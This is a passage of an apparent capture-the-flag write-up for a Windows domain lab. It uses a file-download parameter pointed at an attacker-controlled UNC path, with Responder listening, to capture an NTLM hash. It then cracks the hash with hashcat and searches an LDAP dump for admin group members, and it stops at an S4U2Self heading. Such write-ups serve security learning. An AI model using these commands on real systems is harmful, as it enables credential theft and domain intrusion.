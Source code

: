 So we are authenticate as Emma.Bell and we can get audit.txt ```/File/Download?fileName=audit.txt```

seeing this url i immediately wanted to test an LFI or RFI :

## RFI

```bash
Responder -I tun0

curl --negotiate -u : 'http://lus2dc.lustrous2.vl/File/Download?fileName=\\10.8.2.163\toto' -v
```

![alt text](<../assets/image_lustrous2/4ER RFI SUCCESS.png>)

Nice, now crack with hashcat :

```bash
hashcat --hash-type 5600 --attack-mode 0 hash.txt /usr/share/wordlists/rockyou.txt
```
Do the same thing (getTGT and getST) with SvcShare creds but nothing more interesting on the site

But if we return on the ldap dump and type this 

```bash 
cat *.json | jq | grep -I -C10 'Admins'
```
We can see that : 

```json
    "dn": "CN=Ryan Davies,OU=lustrous,DC=Lustrous2,DC=vl",
    "givenName": "Ryan",
    "homeDirectory": "\\\\LUS2DC.Lustrous2.vl\\homes$\\Ryan.Davies",
    "homeDrive": "F:",
    "instanceType": 4,
    "lastLogoff": "1601-01-01T00:00:00+00:00",
    "lastLogon": "1601-01-01T00:00:00+00:00",
    "lastLogonTimestamp": "2024-09-07T10:50:05.598505+00:00",
    "logonCount": 0,
    "memberOf": [
      "CN=ShareAdmins,OU=lustrous,DC=Lustrous2,DC=vl",
      "CN=lustrous,CN=Users,DC=Lustrous2,DC=vl"
    ],
    "msDS-SupportedEncryptionTypes": 0,
    "name": "Ryan Davies",
    "objectCategory": "CN=Person,CN=Schema,CN=Configuration,DC=Lustrous2,DC=vl",
    "objectClass": [
      "top",
      "person",
      "organizationalPerson",
      "user"
```
## S4U2SELF
